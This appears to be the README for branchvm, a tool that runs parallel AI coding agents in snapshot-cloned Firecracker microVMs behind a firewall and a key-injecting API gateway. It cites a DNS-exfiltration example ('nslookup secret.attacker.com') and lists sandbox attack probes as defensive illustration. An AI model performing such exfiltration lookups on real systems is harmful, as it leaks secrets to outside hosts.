




<div align="center">
  <picture>
    <source media="(prefers-color-scheme: dark)" srcset="docs/icon-dark.svg">
    
  </picture>

  <h1>branchvm</h1>

  <p>
    Free local Firecracker sandboxes for running AI coding agents in parallel on any repo. Fork your app, dependencies, and backend databases into isolated microVMs, inspect each branch live, and apply the winning diff back to your host.
  </p>

  <p>
    <a href="#how-it-works">How it works</a> &middot;
    <a href="#any-stack-with-branchvmtoml">Any stack</a> &middot;
    <a href="#under-the-hood">Under the hood</a> &middot;
    <a href="#quickstart">Quickstart</a> &middot;
    <a href="#security-verification">Verification</a> &middot;
    <a href="#benchmarks">Benchmarks</a>
  </p>
</div>

<br>

## The problem

When you hit a hard bug or a multi-file refactor, running one coding agent at a time is slow. You want to spin up multiple agents in parallel, let each one test a different approach against your real dependencies and database, inspect what each branch actually produced, and promote only the winner.

Standard local tools break down here:

- `git worktree` isolates files, while every worktree still hits the same local Postgres port (`5432`) or dev server port (`3000`) and mutates the same state. Any bad command also runs directly on your host.
- Docker Compose cold boots databases from scratch for each copy, needs port remapping (`5433`, `5434`, `5435`), and shares one host Linux kernel across every container.
- Hosted cloud sandboxes bill per second and require uploading your private repo and database state to remote servers.

`branchvm` solves this locally on your own hardware for $0/month. Point it at any `Dockerfile`, Docker image, or the built-in Go + Postgres rootfs, boot one golden Firecracker microVM once, save its RAM and disk state, and clone it into N isolated branches in ~200 ms. Your host repo stays untouched while branches run. Once agents finish, read branch output with `branchvm logs`, inspect changes with `branchvm diff`, drop into a live shell with `branchvm shell`, forward a branch web or DB port with `branchvm forward`, and run `branchvm apply <i>` to promote the winning patch with a leak scan.

## How it works

<p align="center">
  
</p>

The workflow follows one loop:

1. `branchvm init` builds or selects your rootfs (`branchvm.toml` `dockerfile` / `image`, `--image`, or the base rootfs), boots one golden Firecracker microVM on an XFS pool, syncs your repo, runs an optional warm build command, checkpoints services, scrubs `/etc/machine-id` and random seeds, pauses the VM, and saves `snapshot`, `mem`, `golden/rootfs.ext4`, and `golden/meta.json`.
2. `branchvm run --branches 3 -- <command>` restores N microVMs concurrently from that snapshot, uploads only changed files and deleted paths since `init`, runs your agent or test script inside every branch, and saves each branch's logs and `git diff`.
3. Inspect and test live branches before promoting:
   - `branchvm logs 2` prints Branch 2's saved stdout and stderr.
   - `branchvm diff 2` (or `--stat`) prints Branch 2's live diff.
   - `branchvm shell 2` opens an interactive PTY shell inside Branch 2 (with the LLM gateway attached).
   - `branchvm forward 2 3000` forwards host `127.0.0.1:3000` to Branch 2's guest `127.0.0.1:3000` (or `5432:15432` for Postgres).
4. `branchvm apply 2` checks and applies Branch 2's diff to your host repo, tears down all temporary VMs and networks, and verifies zero leaked host resources. `branchvm gc --all` discards any active runs on demand.

`branchvm` is written in Go 1.23 with zero third-party dependencies in `go.mod`. Guest PID 1 (`cmd/execd`) compiles to a single static Linux binary, configures guest networking over `AF_NETLINK` with no `iproute2` dependency, and replaces `systemd` inside the microVM.

## Any stack with `branchvm.toml`

Add a short `branchvm.toml` at your repo root to run Node, Python, Rust, Go, Postgres, Redis, or stateless web apps:

```toml
dockerfile = "Dockerfile"        # or image = "node:22-slim"
mem = 2048
cpus = 2
warm = "npm test -- --version"   # optional pre-snapshot cache warm
services = ["postgres", "redis"] # omit or set [] for stateless apps
database = "myapp"

env = [
  "DATABASE_URL=postgres://postgres@127.0.0.1:5432/myapp?sslmode=disable",
]

# Optional custom background service:
# [[service]]
# name = "worker"
# cmd = ["node", "worker.js"]
# ready_tcp = "127.0.0.1:4000"

# Optional custom OpenAI/Anthropic-compatible API route:
# [providers.together]
# upstream = "https://api.together.xyz"
# api_key_env = "TOGETHER_API_KEY"
# auth_header = "Authorization"
```

When a repo has `branchvm.toml` and omits `services`, it defaults to stateless (zero background services, fast restore with no Postgres wait). When a repo has no `branchvm.toml`, `branchvm` keeps the v0.1 Go + Postgres default for full backwards compatibility.

Every branch also injects headless coding-agent defaults (`IS_SANDBOX=1`, `CLAUDE_CODE_DISABLE_NONESSENTIAL_TRAFFIC=1`, dummy keys, and `ANTHROPIC_BASE_URL` / `OPENAI_BASE_URL` / `OPENROUTER_BASE_URL`), and seeds `/root/.claude.json` when building OCI images so commands like `claude --dangerously-skip-permissions -p "..."` and `codex exec "..."` run unattended through the host gateway.

## Under the hood

### Shared RAM across concurrent branches

<p align="center">
  
</p>

If 5 or 10 agents run concurrently, why do they not each consume a full 1 GiB of host RAM?

The golden memory dump (`mem`) is made of 262,144 pages of 4 KB each. While branches run at the same time, roughly 90% to 95% of what they read in RAM is identical: the Linux kernel, database binaries, standard libraries, and unchanged memory. `branchvm` maps `mem` with `MAP_PRIVATE` (or resolves faults through `userfaultfd`), so every branch reads those shared 4 KB pages from one physical copy in host RAM.

Only when a branch writes to a 4 KB page (an `INSERT` or a file edit) does the kernel trigger a Copy-on-Write fault and allocate a private 4 KB page for that branch. In our lab benchmarks on a 6 GiB host, 10 running 1 GiB clones used 620 MiB of host RAM total (62 MiB per clone) instead of 10,240 MiB.

### Instant disk clones with XFS reflink

<p align="center">
  
</p>

Copying a multi-gigabyte root disk image with normal `cp` reads and writes the full disk on the SSD every time. `branchvm` creates a loopback XFS filesystem with `mkfs.xfs -m reflink=1,crc=1` and clones `golden/rootfs.ext4` using `cp --reflink=always`.

A reflink clone finishes in ~1 ms and uses 0 extra bytes on disk. XFS writes a tiny metadata pointer table telling Branch 1's disk file to reference the same physical SSD blocks as the golden image. The moment an agent writes a file or commits a Postgres page, XFS allocates a new 4 KB block for that write alone and updates Branch 1's pointer. The golden disk stays immutable and concurrent clones never corrupt each other's `ext4` filesystem.

### Hardware isolation and cgroups v2

<p align="center">
  
</p>

Each `branchvm` branch runs inside a Firecracker microVM over Linux KVM (`/dev/kvm`) with its own guest Linux kernel behind a CPU hardware boundary, no BIOS, and no legacy PCI/USB emulation. On snapshot restore, Firecracker signals Linux `VMGenID` so each clone reseeds `/dev/urandom` right away instead of sharing identical random streams.

On the host, every Firecracker process sits inside its own `cgroups v2` directory (`/sys/fs/cgroup/branchvm/<run>-<i>`), enforcing `memory.max`, `cpu.max`, and `pids.max` and tearing down processes atomically on cleanup.

### Network lockdown and the API gateway

<p align="center">
  
</p>

Every branch lives in its own Linux network namespace (`netns`), so every branch uses the same guest IP (`172.16.0.2`) and default ports (`5432`, `3000`, `6379`) with no port remapping.

An `nftables` firewall inside each namespace sets `policy drop` by default. Outbound traffic to the public internet, private LAN ranges (`10/8`, `172.16/12`, `192.168/16`), host loopback, cloud metadata (`169.254.169.254`), IPv6, and raw DNS ports (`53` and `853`) are all dropped. Blocking raw DNS prevents an agent from smuggling secrets out inside a domain lookup like `nslookup secret.attacker.com`.

To let coding agents stream LLM responses while the internet is blocked, the firewall opens one rule: traffic to `10.200.i.1:18080`, a per-branch Go reverse proxy on the host with unbuffered SSE flushing (`FlushInterval: -1`). Inside the guest, `branchvm` injects a worthless dummy token (`bvm_dummy_i`). Your real API keys never enter the VM. The host gateway verifies the dummy token in constant time, strips it, injects the real host key (`ANTHROPIC_API_KEY`, `OPENAI_API_KEY`, `OPENROUTER_API_KEY`, or `[providers.*]`), and opens normal TLS connections upstream with zero fake root CAs.

## Quickstart

### Install on Linux (`amd64` or `arm64` with `/dev/kvm`)

```bash
curl -fsSL https://raw.githubusercontent.com/Heman10x-NGU/branchvm/main/scripts/install.sh | sudo sh
sudo bash /usr/local/share/branchvm/fetch-assets.sh
```

Or build from source (on Apple silicon M3+ Mac, create the Lima `fc-lab` VM first):

```bash
scripts/setup-lima.sh
limactl shell fc-lab sudo bash scripts/fetch-assets.sh
limactl shell fc-lab
```

Inside the Linux host or `fc-lab`:

```bash
make build-all
sudo install -m 0755 bin/execd /var/lib/branchvm/assets/execd
```

### Example 1: Stateless Node app from `Dockerfile` (`examples/node-demo`)

`examples/node-demo` uses `FROM node:22-slim` with no `iproute2` and no Postgres, proving `branchvm.toml` auto-build and stateless execution:

```bash
cd examples/node-demo
sudo -E ../../bin/branchvm init
sudo -E ../../bin/branchvm run --branches 3 -- node --test
sudo ../../bin/branchvm logs 1
sudo ../../bin/branchvm shell 1
sudo ../../bin/branchvm gc --all
```

### Example 2: Full-stack Go + Postgres demo (`examples/auth-demo`)

```bash
sudo scripts/build-rootfs.sh   # optional: builds base Ubuntu + Go + Postgres rootfs
cd examples/auth-demo
sudo -E ../../bin/branchvm init  # uses warm command in examples/auth-demo/branchvm.toml
sudo -E ../../bin/branchvm run --branches 3 -- ./demo-agents.sh
sudo ../../bin/branchvm diff 2 --stat
sudo ../../bin/branchvm shell 2 -- go test ./...
sudo -E ../../bin/branchvm apply 2
git diff --stat
sudo ../../bin/branchvm verify --repo .
```

### Example 3: Parallel Claude Code agents (`examples/agent-image`)

```bash
sudo docker build -t branchvm-agent:latest examples/agent-image
cd examples/auth-demo
sudo -E ../../bin/branchvm init --image branchvm-agent:latest
sudo -E ../../bin/branchvm run --branches 3 -- claude --dangerously-skip-permissions -p "Fix the failing auth test and verify go test ./..."
```

Pass `--pager fadvise` to `branchvm run` to prefault the recorded working set instead of plain `mmap` restores (`--pager uffd` runs in-process and is supported in `branchvm bench`).

### Live demo page

To run the core demo actions from a browser with streamed terminal logs and benchmark bars, start the local demo server inside `fc-lab` and open `http://localhost:8090` on your Mac (Lima forwards the port automatically):

```bash
sudo -E python3 demo/server.py
```

## Security verification

`branchvm verify` restores 5 branches and fires 6 live attacks at the sandbox. Measured output from the lab:

```text
ID  ATTACK              RESULT  EVIDENCE
P1  env-key             PASS    printenv="bvm_dummy_1" want "bvm_dummy_1"; env+/proc/1/environ (371 bytes, exit 0): host real keys unset, substring scan skipped
P2  firewall            PASS    93.184.216.34 exit=7, evil.example.com exit=6, 169.254.169.254 exit=7; control gateway exit=0 http=401
P3  dns-exfil           PASS    nslookup udp/53 exit=1, dig tcp/53 exit=9
P4  cow-disk            PASS    golden sha256 before=c86d3fc22bb2 after=c86d3fc22bb2 unchanged=true; 5 clone sha256 pairwise distinct=true [738720217d0b e029a0d2dede eeebe1c22d09 dc52d31b8432 09bca70094ef]; each DB saw only its own row
P5  vmgenid-entropy     PASS    5/5 distinct 32-byte /dev/urandom samples read right after restore [be429238 723fd09b 3e0bcf73 b1821112 a3a24c51]; boot_id: 5 distinct across 5 clones (clones resume one kernel boot, so a shared boot_id is expected)
P6  zero-leak teardown  PASS    netns=0 veth=0 cgroups=0 clone_dirs=0 firecracker=0 gateways=0 state_file_removed=true
6/6 PASS
```

Set `ANTHROPIC_API_KEY` on the host before running `verify` to test the full substring leak scan too.

## Benchmarks



Full methodology and all three tables are in [BENCHMARKS.md](BENCHMARKS.md). Every number comes from `branchvm bench` (124 samples), with Linux page caches dropped before every cold sample; raw JSONL records are in `results/raw.jsonl`.

## Alternatives

| Tool | Isolation boundary | State cloning | Cost | Where it runs |
|---|---|---|---|---|
| branchvm | Firecracker microVM per branch, netns firewall, cgroup | Running guest memory and disk, DB/services included, from one snapshot | Free, your hardware | Local Linux with KVM |
| boat.dev | Full Ubuntu VM per sandbox | Fork a sandbox with its disk; a DB counts only if it runs inside | Per-second billing, plans from $20 a month | Hosted |
| Modal | gVisor sandbox | Sandbox snapshots; your existing DB stays outside | Per-second billing | Hosted |
| E2B | Firecracker microVM per sandbox | Pause, resume, and fork with memory; a DB counts only if it runs inside | Per-second billing | Hosted |
| Docker Sandboxes (sbx) | MicroVM with its own kernel and Docker Engine | Workspace mount or in-VM repo clone; services start fresh per sandbox | Free locally, cloud from $0.07 an hour | Local or Docker cloud |
| Microsandbox | libkrun microVM | New sandbox from an OCI image | Free, open source | Local |
| E2B Embed | Firecracker microVM per sandbox | Same pause, resume, and fork as E2B Cloud | Free, Apache-2.0, your hardware | One self-hosted Linux machine with KVM |
| Anthropic sandbox runtime (srt) | bubblewrap on Linux, sandbox-exec on macOS, proxy network filter | None; processes share the host filesystem and services | Free, open source | Local, no VM |
| git worktree | None | Files only; every worktree shares one DB and port space | Free | Local |
| vmsan | Firecracker microVM with jailer and netns | Per-VM snapshot and restore; a DB counts only if it runs inside | Free, open source | Local Linux with KVM |

## Limits

- Requires Linux with KVM (`/dev/kvm`). Firecracker does not run natively on macOS; on an M3 or newer Mac you need the Lima `fc-lab` VM with nested virtualization enabled.
- The `nftables` firewall drops all outbound traffic except the host LLM gateway (`10.200.i.1:18080` for Anthropic, OpenAI, OpenRouter, and `[providers.*]`). It is active during both `--warm` and branch runs, so install project dependencies in your Dockerfile or vendor them before `branchvm init`, since `npm install` or `pip install` inside a VM cannot reach public registries.
- Branch IPs are assigned per index, so one run owns the host at a time; `run` refuses to start while another run has live VMs.
- This is a local developer tool, not multi-tenant production hardening. It runs as root, starts Firecracker without `jailer`, and does not isolate untrusted tenants from each other.
